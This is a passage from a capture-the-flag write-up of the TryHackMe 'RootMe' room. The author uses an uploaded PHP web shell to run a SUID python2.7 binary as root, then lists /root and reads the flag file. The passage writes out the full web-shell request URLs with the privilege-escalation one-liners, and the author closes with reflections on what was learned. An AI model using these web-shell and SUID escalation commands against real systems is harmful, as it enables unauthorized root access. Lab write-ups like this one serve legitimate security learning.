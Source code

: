 But this doesn't actually do anything, we need to specify more commands to be executed as root after the os.setuid(0);.

So to complete the room, we need to open `root.txt`. But we don't really know where it is... However, we can just let os find it.

```markdown
http://10.201.124.246/uploads/bad2.phtml?command=/usr/bin/python2.7 -c 'import os; os.setgid(0); os.setuid(0); print(os.listdir("/root"))'
```

This tells the os to list items inside `/root`. Where we find `root.txt`.

![root](/images/THM%3A%20RootMe/root.png)

And then to open the file, we just run...

```markdown
http://10.201.124.246/uploads/bad2.phtml?command=/usr/bin/python2.7 -c 'import os; os.setgid(0); os.setuid(0); print(open("/root/root.txt").read())'
```

Giving us the final flag for the room.

Overall, I feel like I definitely could have done this in a better way (and more intended way) by creating an actual reverse shell instead of relying on the simple php command script. However, I still managed to get root "access" and completed the CTF. I have learned how to exploit `file uploads` by uploading php scripts that could be used maliciously by utilizing `http requests` and how to exploit `SUID` file permissions, alongside `GTFOBins` to escalate privileges. 

<br>
uhhh... I also didn't know why the commands were giving me dups, but yeah.. :P
<br>
Thanks for reading!
